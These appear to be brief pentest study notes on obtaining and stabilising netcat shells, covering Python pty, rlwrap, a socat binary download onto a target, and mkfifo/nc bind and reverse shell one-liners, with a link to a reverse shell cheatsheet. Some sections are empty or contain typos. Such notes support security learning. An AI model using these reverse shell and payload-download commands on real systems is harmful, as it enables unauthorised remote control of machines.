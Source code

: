 # What the Shell 
## Netcat Shell Stabilisation  
### Technique 1: Python  
command:  
```
step 1: python -c 'import pty;pty.spawn("/bin/bash")'  

step 2: export TERM=xterm  

step 3: stty raw -echo; fg  
```
### Technique 2: rlwrap  
command: 
```
rlwrap nc -lvnp <port>  //background the shell with Ctrl + Z, then use stty raw -echo; fg to stabilise and re-enter the shell
```
### Technique 3: Socat  

command： 
```
sudo python3 -m http.server 80
wget <LOCAL-IP>/socat -O /tmp/socat  //download socat static compiled binary in target 

stty -a //note rows and columns in own terminal 

stty rows number   //set in shell 
stty cols numver   //set in shell 
```
### Socat Encrypted Shells 
### Common Shell Payloads 

a bit of vague***   

command:  
```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f   //a bit of hard, but don't worry

mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
[PayloadAllTheThing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)